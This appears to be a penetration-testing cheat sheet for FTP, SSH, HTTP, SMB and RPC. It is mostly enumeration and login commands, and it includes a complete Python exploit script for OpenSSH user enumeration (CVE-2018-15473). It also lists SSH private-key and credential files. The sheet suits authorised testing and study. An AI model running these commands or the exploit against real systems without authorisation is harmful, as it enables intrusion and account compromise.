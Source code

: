 # Network Services

## FTP

#### Anonymous login

{% code overflow="wrap" %}
```bash
ftp anonymous@10.10.10.10  # No password needed
```
{% endcode %}

#### Auto login

```bash
sshpass -p 'pass' ftp user@10.10.10.10
```

#### Browser URL

{% code overflow="wrap" %}
```bash
ftp://user:pass@10.10.10.10
```
{% endcode %}

#### SSL

{% code overflow="wrap" %}
```bash
lftp 10.10.10.10 -e "set ssl:verify-certificate no; set ftp:ssl-force true"
```
{% endcode %}

#### Download all files

{% code overflow="wrap" %}
```bash
wget -r --user='user' --password='pass' ftp://10.10.10.10
```
{% endcode %}

## SSH

#### Default credentials

Check for default credentials depending on the vendor:[https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials)

#### Auto login

```
sshpass -p 'pass' ssh user@10.10.10.10
```

#### Private key login

{% code overflow="wrap" %}
```bash
ssh -i id_rsa user@10.10.10.10
```
{% endcode %}

#### Important files

```
ssh_config
sshd_config
authorized_keys
ssh_known_hosts
known_hosts
id_rsa
```

#### Generate RSA keys

{% code overflow="wrap" %}
```bash
ssh-keygen -t rsa -f id_rsa
```
{% endcode %}

#### User enumeration - OpenSSH <7.7

Any version of OpenSSH up to 7.7 is vulnerable to user enumeration (CVE-2018-15473) if not patched. To exploit this vulnerability, we can use the following script:

<details>

<summary><mark style="background-color:green;">ssh_user_enum.py</mark></summary>

{% code overflow="wrap" fullWidth="true" %}
```python
#!/usr/bin/env python2

import argparse
import logging
import paramiko
import socket
import sys
from colorama import init, Fore
from threading import Thread, current_thread, enumerate as enumerate_threads

class SSHUserChecker:
    def __init__(self, target, port=22):
        self.target = target
        self.port = port

        # Remove paramiko logging
        logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

        # Assign functions to respective handlers
        self._old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = self._service_accept
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = self._invalid_username

    def _service_accept(self, *args, **kwargs):
        paramiko.message.Message.add_boolean = self._add_boolean
        return self._old_service_accept(*args, **kwargs)

    def _add_boolean(self, *args, **kwargs):
        pass

    def _invalid_username(self, *args, **kwargs):
        raise InvalidUsername()

    def check_user(self, username):
        sock = socket.socket()
        sock.connect((self.target, self.port))
        transport = paramiko.transport.Transport(sock)

        try:
            transport.start_client()
        except paramiko.ssh_exception.SSHException:
            print (Fore.RED + '\n[!] Failed to negotiate SSH transport for user:' + username)
            return False

        try:
            transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
        except InvalidUsername:
            return False
        except paramiko.ssh_exception.AuthenticationException:
            return True
        return False

class InvalidUsername(Exception):
    pass

def check_user_wrapper(user_checker, username, valid_users, invalid_users):
    if user_checker.check_user(username):
        valid_users.append(username)
    else:
        invalid_users.append(username)

def main():
    parser = argparse.ArgumentParser(description='SSH User Enumeration')
    parser.add_argument('-u', '--username', help="Username to check for validity.")
    parser.add_argument('-w', '--wordlist', help="Wordlist file containing usernames to check.")
    parser.add_argument('-p', '--port', type=int, default=22, help="Set port of SSH service")
    parser.add_argument('target', help="IP address of the target system")

    if len(sys.argv) == 1:
        parser.print_help()
        sys.exit(1)

    args = parser.parse_args()

    user_checker = SSHUserChecker(args.target, args.port)
    valid_users = []
    invalid_users = []

    if args.wordlist:
        with open(args.wordlist, 'r') as f:
            for line in f:
                username = line.strip()
                t = Thread(target=check_user_wrapper, args=(user_checker, username, valid_users, invalid_users))
                t.start()
    else:
        if not args.username:
            parser.error("[!] You must specify either a username (-u) or a wordlist (-w).")
        else:
            t = Thread(target=check_user_wrapper, args=(user_checker, args.username, valid_users, invalid_users))
            t.start()

    # Esperar a que todos los hilos terminen
    for t in enumerate_threads():
        if t != current_thread():
            t.join()

    if args.wordlist:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid users:")
            for user in valid_users:
                print(Fore.GREEN + "{}".format(user))
        else:
            print(Fore.RED + "\n[-] No valid users found.")
    else:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid user: {}".format(args.username))
        else:
            print(Fore.RED + "\n[-] Invalid user: {}".format(args.username))

if __name__ == "__main__":
    main()
```
{% endcode %}

</details>

## HTTP/HTTPS

Enumerate basic files and directories with nmap scripts

```bash
nmap -p80,443 --script http-enum -oN webScan <target>
```

#### Web Technologies

```
whatweb <target>
```

I also recommend using the [`Wappalizer`](https://www.wappalyzer.com/apps/) browser extension

#### File and Directory Enumeration

* **Gobuster**

```bash
gobuster dir -u http://<target>/ -w <wordlist>
```

{% hint style="info" %}
Useful parameters:

`-t, --threads                       Concurrent threads`

`--exclude-length                    Exclude content length`

`-s, --status-codes                  White list status codes`

`-b, --status-codes-blacklist        Black list status codes`

`-r, --follow-redirect               Follow redirects`

`--proxy                             Use Proxy <type:host:port>`

`-k, --no-tls-validation             Skip TLS verification`

`--timeout                           HTTP Timeout`
{% endhint %}

* **Wfuzz**

```bash
wfuzz -w <wordlist> http://<target>/FUZZ
```

{% hint style="info" %}
Useful parameters:

`-t <threads>      Concurrent threads`

`-L, --follow      Follow redirects`

`-p                Use Proxy <host:port:type>`

`--hc/hl/hw/hh     Hide code/lines/words/chars`

`--sc/sl/sw/sh     Show code/lines/words/chars`
{% endhint %}

#### Subdomain Enumeration

* **Gobuster**

```
gobuster vhost -u http://<target>/ -w <wordlist>
```

* **Wfuzz**

```
wfuzz -H 'Host: FUZZ.<target>' -w <wordlist> http://<target>/
```

#### Exploitation

Once the web is enumerated, you may want to exploit some web vulnerabilities:

{% content-ref url="web-vulnerabilities/" %}
[web-vulnerabilities](web-vulnerabilities/)
{% endcontent-ref %}

## SMB

System enumeration with `enum4linux`

```bash
enum4linux -a [-u '<username>' -p '<password>'] <target>
```

#### Shares Enumeration

{% hint style="info" %}
On windows systems you may need to escape backlashes: `\\\\<target>\\<share>`
{% endhint %}

```bash
# null session
smbclient -N -L //<target>
# authenticated
smbclient -U 'username[%password]' -L //<target>
# conect to a share
smbclient [-U 'username[%password]'] //<target>/<share>
```

```bash
# null session
smbmap -H <target>
# authenticated
smbmap -u "username" -p "password" -H <target>
# recursive/non-recursive listing
smbmap [-u "username" -p "password"] -R/-r <share> -H <target>
```

```bash
# null session
crackmapexec smb <IP> -u '' -p '' --shares
# authenticated
crackmapexec smb <IP> -u 'username' -p 'password' --shares
```

```bash
nmap -p 139,445 --script "smb-enum-shares" <target>
```

## RPC

#### Automated Enumeration

```bash
rpcdump.py <target>
```

#### Manual Enumeration

```bash
# null session
rpcclient -U "" -N <target>
# authenticated
rpcclient -U 'username%passwd' -N <target>
# commands https://www.hackingarticles.in/active-directory-enumeration-rpcclient/
rpcclient -U '[username%passwd]' -N <target> -c '<command>'
```
